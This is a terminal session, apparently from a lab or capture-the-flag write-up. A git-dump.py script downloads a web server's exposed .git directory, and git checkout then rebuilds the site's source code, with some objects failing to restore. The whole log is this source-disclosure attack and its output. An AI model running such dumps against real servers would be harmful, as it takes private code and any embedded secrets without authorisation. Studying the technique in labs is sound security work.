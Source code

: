 ```shellsession
$ python git-dump.py http://192.168.56.68/.git/
URL for test: http://192.168.56.68/.git/
Fetching: http://192.168.56.68/.git/index
Fetching: http://192.168.56.68/.git/FETCH_HEAD
Fetching: http://192.168.56.68/.git/HEAD
Fetching: http://192.168.56.68/.git/ORIG_HEAD
Fetching: http://192.168.56.68/.git/config
Fetching: http://192.168.56.68/.git/description
Fetching: http://192.168.56.68/.git/packed-refs
Fetching: http://192.168.56.68/.git/info/exclude
Fetching: http://192.168.56.68/.git/info/refs
Fetching: http://192.168.56.68/.git/logs/HEAD
Fetching: http://192.168.56.68/.git/logs/refs/heads/develop
Fetching: http://192.168.56.68/.git/logs/refs/heads/master
Fetching: http://192.168.56.68/.git/logs/refs/remotes/origin/develop
Fetching: http://192.168.56.68/.git/logs/refs/remotes/origin/step_develop
Fetching: http://192.168.56.68/.git/logs/refs/remotes/origin/master
Fetching: http://192.168.56.68/.git/logs/refs/remotes/github/master
Fetching: http://192.168.56.68/.git/refs/heads/develop
Fetching: http://192.168.56.68/.git/refs/remotes/origin/develop
Fetching: http://192.168.56.68/.git/refs/heads/master
Fetching: http://192.168.56.68/.git/refs/remotes/origin/step_develop
Fetching: http://192.168.56.68/.git/refs/remotes/github/master
Fetching: http://192.168.56.68/.git/objects/info/packs
Fetching: http://192.168.56.68/.git/refs/remotes/origin/master
Fetching: http://192.168.56.68/.git/refs/remotes/origin/HEAD
Parsing Index File
Fetching: http://192.168.56.68/.git/objects/47/b639702ccbb7cc5ce9c38556560b617e604fcd
Fetching: http://192.168.56.68/.git/objects/77/bb51c7a9c58ca7da8161b9cbcfb098c519ae09
Fetching: http://192.168.56.68/.git/objects/dc/29515021bb64943226019ef14cd0a9ce940907
Fetching: http://192.168.56.68/.git/objects/c7/8b76780fe411eb7786a15b99fc02c05cc1c1f5
Fetching: http://192.168.56.68/.git/objects/a5/5129286e6535d241fdcec8433f29915bcf2595
Fetching: http://192.168.56.68/.git/objects/3f/ec32c842751033d92c8967eba40c3911333a78
Fetching: http://192.168.56.68/.git/objects/5a/928f6da25ac6d6ba65480b76d03a71cb906138
Fetching: http://192.168.56.68/.git/objects/13/6beafb81ce4aa2b0b9225df70a4cd06f7e7940
Fetching: http://192.168.56.68/.git/objects/2a/89468d12d2133daa2354a9dd28cf52ae0548cd
Fetching: http://192.168.56.68/.git/objects/d3/4bb4259d9acb437d9f089aaa6f25343bb2611c
Fetching: http://192.168.56.68/.git/objects/00/00000000000000000000000000000000000000
Fetching: http://192.168.56.68/.git/objects/69/64f6c4d5750690695312138bdfa70338195d5a
Fetching: http://192.168.56.68/.git/objects/08/1b5357b1dffb3ff3f1a486907b6ff86207a6a8
Fetching: http://192.168.56.68/.git/objects/2a/e9352c194523e3fbdc50ade4bcd620162d9016
Fetching: http://192.168.56.68/.git/objects/9b/643e869b2f4d5257ae8dcb82f0d6276d6a28b5
Fetching: http://192.168.56.68/.git/objects/99/8441a9bf12a5c61126a38b9aa92f7bdb3fed41
Script Executed Successfully
Run following command to retrieve source code: cd output && git checkout -- .
$ cd output/
$ git checkout -- .
erreur : unable to read sha1 file of images/mp3-file.png (6964f6c4d5750690695312138bdfa70338195d5a)
erreur : unable to read sha1 file of images/youtube.png (2ae9352c194523e3fbdc50ade4bcd620162d9016)
erreur : unable to read sha1 file of js/jquery-3.5.0.min.js (47b639702ccbb7cc5ce9c38556560b617e604fcd)
erreur : unable to read sha1 file of js/main.js (9b643e869b2f4d5257ae8dcb82f0d6276d6a28b5)
```
